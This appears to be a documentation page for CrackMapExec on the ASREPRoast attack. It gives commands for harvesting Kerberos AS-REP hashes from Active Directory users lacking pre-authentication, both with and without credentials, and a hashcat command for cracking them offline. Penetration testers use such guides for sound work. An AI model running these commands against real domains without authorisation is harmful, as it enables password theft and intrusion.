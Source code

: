 ```yaml
---
description: >-
  Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos
  pre-authentication required
---
```


# ASREPRoast



{% hint style="success" %}
You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain
{% endhint %}

### Without authentication

> The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS\_REQ request to the KDC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

```
cme ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

Using a wordlist, you can find wordlists of username here

```
cme ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

{% hint style="info" %}
Set the password value to '' to perform the test without authentication&#x20;
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

### With authentication

If you have one valid credential on the domain, you can retrieve all the users and hashs where the  Kerberos pre-authentication is not required

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

{% hint style="info" %}
Use option **kdcHost** when the domain name resolution fail&#x20;

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Cracking with hashcat&#x20;

To crack hashes on the file output.txt with hashcat use the following options:

```
hashcat -a 0 -m 18200 output.txt wordlist
```

